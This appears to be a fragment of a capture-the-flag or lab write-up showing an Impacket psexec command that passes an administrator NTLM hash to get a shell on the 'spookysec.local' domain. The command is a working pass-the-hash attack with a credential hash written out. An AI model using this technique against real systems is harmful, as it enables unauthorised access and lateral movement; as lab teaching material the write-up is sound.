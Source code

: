 ```
python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes
aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc administrator@spookysec.local

```


This will allow us to get a shell on target doamin system using the hash or password

